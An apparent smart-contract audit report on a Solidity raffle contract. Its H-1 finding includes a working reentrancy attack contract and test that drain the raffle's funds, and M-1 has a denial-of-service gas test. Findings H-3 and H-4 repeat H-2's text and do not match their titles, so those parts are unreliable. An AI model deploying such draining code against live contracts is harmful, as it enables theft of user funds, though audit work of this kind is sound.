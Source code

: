 ### [H-1] Function `PuppyRaffle::refund` is vulnerable to reenteracy attacks.

**Description:** The function `PuppyRaffle::refund` sends an external call before updating the states. This external call can be called multiple times before it ever reaches the `players[playerIndex] = address(0)`.

```javascript
function refund(uint256 playerIndex) public {
    address playerAddress = players[playerIndex];
    require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
    require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

@>  payable(msg.sender).sendValue(entranceFee);

@>  players[playerIndex] = address(0);
    emit RaffleRefunded(playerAddress);
}
```

**Impact:** Impact of reenteracy attacks can be critical. Attacker can drain the contract funds by calling back to `PuppyRaffle` contract once they receive funds using `fallback()` or `recive()`. Which calls back the `refund()` again before it ever gets a chance to update the balance, in this case removing them from `players[]`. They can drain the contract until there is nothing left.

**Proof of Concept:** Place the following test in `PuppyRaffle.t.sol`.

<details>
<summary> POC </summary>

```javascript


    function test_reenterancyAttack() public {
        address[] memory players = new address[](4);
        players[0] = playerOne;
        players[1] = playerTwo;
        players[2] = playerThree;
        players[3] = playerFour;
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

        ReenterancyAttacker attackerContract = new ReenterancyAttacker(
            puppyRaffle
        );
        address attacker = makeAddr("attacker");
        vm.deal(attacker, 1 ether);

        uint256 startingAttackContractBalance = address(attackerContract)
            .balance;
        uint256 startingPuppyRaffleBalance = address(puppyRaffle).balance;

        // executing attack
        vm.prank(attacker);
        attackerContract.attack{value: entranceFee}();

        console.log("starting attacker balance", startingAttackContractBalance);
        console.log("starting puppyRaffle balance", startingPuppyRaffleBalance);

        console.log(
            "ending attacker balance",
            address(attackerContract).balance
        );
        console.log("ending puppyRaffle balance", address(puppyRaffle).balance);
    }

contract ReenterancyAttacker {
    PuppyRaffle puppyRaffle;
    uint256 enteranceFee;
    uint256 attackerIndex;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        enteranceFee = _puppyRaffle.entranceFee();
    }

    //enter raffle
    function attack() external payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: enteranceFee}(players);
        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    function _steal() internal {
        if (address(puppyRaffle).balance >= enteranceFee) {
            puppyRaffle.refund(attackerIndex);
        }
    }

    fallback() external payable {
        _steal();
    }

    receive() external payable {
        _steal();
    }
}

```

</details>

**Recommended Mitigation:** Reenterancy attack can be mitigated by following some best practices when dealing with external calls.

- Make checks first
- Update variables
- Lastly external calls

```diff
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");
+       players[playerIndex] = address(0);
+       emit RaffleRefunded(playerAddress);
        (bool success,) = msg.sender.call{value: entranceFee}("");
        require(success, "PuppyRaffle: Failed to refund player");
-        players[playerIndex] = address(0);
-        emit RaffleRefunded(playerAddress);
    }
```

Another solution for this would be using Openzeppelins `ReentrancyGuard` contract, it provides a modifier to functions to prevent these attacks from happening.

### [H-2] Function `PuppyRaffle::selectWinner` uses insecure ways of generating random winner for `winnerIndex`.

**Description:** The way `selectWinner` is implemented is very insecure way to create a winner. Thas in the past been exploited in the past. ex - Meebit NFTs
The winner can be anticipated in this case and using specific methods attacker can.

**Impact:** Miners can hold the transaction and keep rerunning it until they get the winning index of their own

**Proof of Concept:** Case study Meebit NFTs

**Recommended Mitigation:** Recommended and safe way to generate random number is using Chainlink VRF.

### [H-3] Overflow and Underflow

**Description:** The way `selectWinner` is implemented is very insecure way to create a winner. Thas in the past been exploited in the past. ex - Meebit NFTs
The winner can be anticipated in this case and using specific methods attacker can.

**Impact:** Miners can hold the transaction and keep rerunning it until they get the winning index of their own

**Proof of Concept:** Case study Meebit NFTs

**Recommended Mitigation:** Recommended and safe way to generate random number is using Chainlink VRF.

### [H-4] `PuppyRaffle::selectWinner` uses very unsafe require statement, which can lead to not being able to withdraw the fee.

**Description:** The way `selectWinner` is implemented is very insecure way to create a winner. Thas in the past been exploited in the past. ex - Meebit NFTs
The winner can be anticipated in this case and using specific methods attacker can.

**Impact:** Miners can hold the transaction and keep rerunning it until they get the winning index of their own

**Proof of Concept:** Case study Meebit NFTs

**Recommended Mitigation:** Recommended and safe way to generate random number is using Chainlink VRF.

### [M-1] Function `PuppyRaffle::enterRaffle` is exposed to DOS(Denial of service) attacks, looping through unchecked players array.

**Description:** Function `PuppyRaffle::enterRaffle` is prone to DOS attacks. It iterates unbouded through the list `players`, makes it more gas expensive over time could potentially end up being over block gas limit.Every single player added will require additional check to make on top of already existing players resulting directly in increasing gas cost.

**Impact:** Some third party could block access to this function if they run this function multiple times, making it more gas expensive over time could end up being over block gas limit and causing the `PuppyRaffle::enterRaffle` to not be executable anymore.

**Proof of Concept:** Place the following test in `PuppyRaffle.t.sol`.

<details>
<summary> POC </summary>

```javascript

    function test_denialOfService() public {
        // address[] memory players = new address[](1);
        // players[0] = playerOne;
        // puppyRaffle.enterRaffle{value: entranceFee}(players);
        // assertEq(puppyRaffle.players(0), playerOne);
        vm.txGasPrice(1);

        uint256 playerNumber = 500;
        address[] memory players = new address[](playerNumber);
        for (uint256 i = 0; i < playerNumber; i++) {
            players[i] = address(i);
        }

        uint256 gasStart = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * players.length}(players);
        uint256 gasLeft = gasleft();

        uint256 gasUsedFirst500 = (gasStart - gasLeft) * tx.gasprice;

        console.log(gasUsedFirst500);

        // Check gas for next 500 players

        address[] memory playersNext = new address[](playerNumber);
        for (uint256 i = 0; i < playerNumber; i++) {
            playersNext[i] = address(i + playerNumber);
        }

        uint256 gasStartAfter = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * players.length}(
            playersNext
        );
        uint256 gasLeftAfter = gasleft();

        uint256 gasUsedLast500 = (gasStartAfter - gasLeftAfter) * tx.gasprice;

        console.log(gasUsedLast500);

        assert(gasUsedFirst500 < gasUsedLast500);
    }

```

</details>

**Recommended Mitigation:**

### [I-1] Solidity pragma should be specific, not wide

Consider using a specific version of Solidity in your contracts instead of a wide version. For example, instead of `pragma solidity ^0.8.0;`, use `pragma solidity 0.8.0;`

- Found in src/PuppyRaffle.sol: Line: 2

### [I-2] Using outdated versions of Solidity is not recommended.

**Description:** Solc frequently releases new compiler versions. Using an old version prevents access to new Solidity security checks. We also recommend avoiding complex pragma statement.

**Recommendation:** Deploy with any of the following Solidity versions:

`0.8.18`

The recommendations take into account:

- Risks related to recent releases
- Risks of complex code generation changes
- Risks of new language features
- Risks of known bugs

### [I-3] \_isActivePlayer is never used and should be removed

**Description:** The function `PuppyRaffle::_isActivePlayer` is never used and should be removed.

```diff
-    function _isActivePlayer() internal view returns (bool) {
-        for (uint256 i = 0; i < players.length; i++) {
-            if (players[i] == msg.sender) {
-                return true;
-            }
-        }
-        return false;
-    }
```

### [I-4] Zero address may be erroneously considered an active player

**Description:** The `refund` function removes active players from the `players` array by setting the corresponding slots to zero. This is confirmed by its documentation, stating that "This function will allow there to be blank spots in the array". However, this is not taken into account by the `getActivePlayerIndex` function. If someone calls `getActivePlayerIndex` passing the zero address after there's been a refund, the function will consider the zero address an active player, and return its index in the `players` array.

**Recommended Mitigation:** Skip zero addresses when iterating the `players` array in the `getActivePlayerIndex`. Do note that this change would mean that the zero address can _never_ be an active player. Therefore, it would be best if you also prevented the zero address from being registered as a valid player in the `enterRaffle` function.

### [G-1] Unchanged variables should be constant or immutable

**Description:** Reading from storage is much more gas expensive than reading from constants and immutable variables.

Constant Instances:

- `PuppyRaffle::commonImageUri` (src/PuppyRaffle.sol#35) should be constant
- `PuppyRaffle::legendaryImageUri` (src/PuppyRaffle.sol#45) should be constant
- `PuppyRaffle::rareImageUri` (src/PuppyRaffle.sol#40) should be constant

Immutable Instances:

- `PuppyRaffle::raffleDuration` (src/PuppyRaffle.sol#21) should be immutable
